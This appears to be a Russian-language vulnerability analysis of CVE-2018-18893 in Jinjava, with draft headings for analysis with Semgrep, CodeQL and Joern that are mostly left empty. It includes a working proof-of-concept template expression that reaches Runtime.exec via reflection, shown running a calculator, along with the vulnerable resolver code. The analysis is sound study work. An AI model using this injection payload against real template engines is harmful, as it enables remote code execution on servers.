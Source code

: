 **CVE-2018-18893 (Маджуга Богдан Андреевич)**

**Описание:**

Выполняем данный код используя **Jinjava** версия <= 2.4.5

```
Jinjava jinjava = new Jinjava();
JinjavaInterpreter interpreter = jinjava.newInterpreter(); 
Context context = interpreter.getContext(); context.put("obj",""); 
String poc ="''.getClass().forName(\"java.lang.Runtime\").getMethod(\"exec\",''.getClass()).invoke(''.getClass().forName(\"java.lang.Runtime\").getMethod(\"getRuntime\").invoke(null),'/usr/bin/gnome-calculator')"; 
Object a = interpreter.resolveELExpression(poc, -1);
```

После запуска - на Linux машине запускается приложение калькулятор. 

Данная уязвимость отсылается к типу **Expression Resolver** уязвимостям и вообще говоря, для нее не предусмотрен конкретный набор методов, вызывающих ее. В процессе анализа уязвимости и кода, было замечено, что исходная строка конвертируется в метод, который вызывается системой. Следовательно необходимо было искать объекты абстрактного Java класса `Method` и вызов у них методов под названием `invoke()`

Первичным осмотром, искомый код нашелся в классе **BeanELResolver**, где нас интересует следующий код:

```
  @Override
  public Object invoke(
    ELContext context,
    Object base,
    Object method,
    Class<?>[] paramTypes,
    Object[] params
  ) {
    if (context == null) {
      throw new NullPointerException();
    }
    Object result = null;
    if (isResolvable(base)) {
      if (params == null) {
        params = new Object[0];
      }
      String name = method.toString();
      Method target = findMethod(base, name, paramTypes, params, params.length);
      if (target == null) {
        throw new MethodNotFoundException(
          "Cannot find method " +
          name +
          " with " +
          params.length +
          " parameters in " +
          base.getClass()
        );
      }
      try {
        result =
          target.invoke(
            base,
            coerceParams(getExpressionFactory(context), target, params)
          );
      } catch (InvocationTargetException e) {
        throw new ELException(e.getCause());
      } catch (IllegalAccessException e) {
        throw new ELException(e);
      }
      context.setPropertyResolved(true);
    }
    return result;
  }
```
```
  protected Method findMethod(
    Object base,
    String name,
    Class<?>[] types,
    Object[] params,
    int paramCount
  ) {
    if (types != null) {
      try {
        return findAccessibleMethod(base.getClass().getMethod(name, types));
      } catch (NoSuchMethodException e) {
        return null;
      }
    }
    Method varArgsMethod = null;
    for (Method method : base.getClass().getMethods()) {
      if (method.getName().equals(name)) {
        int formalParamCount = method.getParameterTypes().length;
        if (method.isVarArgs() && paramCount >= formalParamCount - 1) {
          varArgsMethod = method;
        } else if (paramCount == formalParamCount) {
          return findAccessibleMethod(method);
        }
      }
    }
    return varArgsMethod == null ? null : findAccessibleMethod(varArgsMethod);
  }
```

**Semgrep**

Для начала, запустим стандартный набор правил `semgrep ci` и посмотрим, что нам выдаст общий анализ.

**CodeQL**
**Joern**
importCode(inputPath="./jinjava", projectName="jinjava")
